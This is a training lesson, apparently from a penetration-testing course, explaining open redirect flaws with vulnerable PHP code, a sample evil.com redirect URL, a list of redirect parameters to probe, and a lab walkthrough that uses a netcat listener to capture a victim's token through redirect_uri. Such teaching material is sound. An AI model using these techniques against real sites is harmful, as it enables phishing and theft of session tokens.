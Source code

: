 # Open Redirect

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality. In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim. As you can imagine, this is possible when the legitimate application's redirection functionality does not perform any kind of validation regarding the websites to which the redirection points. From an attacker's perspective, an open redirect vulnerability can prove extremely useful during the initial access phase since it can lead victims to attacker-controlled web pages through a page that they trust.

Let us take a look at some code.

```php
$red = $_GET['url'];
header("Location: " . $red);
```

```php
$red = $_GET['url'];
```

In the line of code above, a variable called _red_ is defined that gets its value from a parameter called _url_. _$\_GET_ is a PHP superglobal variable that enables us to access the _url_ parameter value.

```php
header("Location: " . $red);
```

The Location response header indicates the URL to redirect a page to. The line of code above sets the location to the value of _red_, without any validation. We are facing an Open Redirect vulnerability here.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`

* ?url=
* ?link=
* ?redirect=
* ?redirecturl=
* ?redirect\_uri=
* ?return=
* ?return\_to=
* ?returnurl=
* ?go=
* ?goto=
* ?exit=
* ?exitpage=
* ?fromurl=
* ?fromuri=
* ?redirect\_to=
* ?next=
* ?newurl=
* ?redir=

***

## Open Redirect Example

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`oredirect.htb.net`) to access the application.

Navigate to `oredirect.htb.net`. You will come across a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect\_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Let us test if we can control the site where the _redirect\_uri_ parameter points to. In other words, let us check if the application performs the redirection without any kind of validation (Open Redirect).

We can test that as follows.

First, let us set up a Netcat listener.

```shell-session
$ nc -lvnp 1337
```

Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.

Open a `New Private Window` and navigate to the link above to simulate the victim.

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request also includes the token!

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Open redirect vulnerabilities are usually exploited by attackers to create legitimate-looking phishing URLs. As we just witnessed, though, when a redirection functionality involves user tokens (regardless of GET or POST being used), attackers can also exploit open redirect vulnerabilities to obtain user tokens.

The following section will provide some prevention advice related to the covered vulnerabilities.
